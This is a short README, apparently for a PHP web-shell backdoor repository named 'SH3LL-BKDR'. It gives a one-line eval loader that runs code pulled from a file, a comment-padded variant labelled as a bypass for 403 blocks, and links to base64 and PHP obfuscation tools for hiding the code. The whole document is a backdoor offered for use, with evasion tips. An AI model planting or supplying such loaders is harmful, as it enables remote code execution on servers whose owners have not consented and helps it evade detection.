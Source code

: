 ## SH3LL-BKDR

### Usage
```
<?php eval("?>".file_get_contents("link_raw.php"));?>
```
### For bypass 403
```
<?=/****/@null; /********/ /*******/ /********/@eval/****/("?>".file_get_contents/*******/("link_raw.php"));/**/?>
```
### Encrypt
* [Base 64](http://phpencoder.atwebpages.com/index.php)
* [PHP Obfuscate](https://php-minify.com/php-obfuscator/)
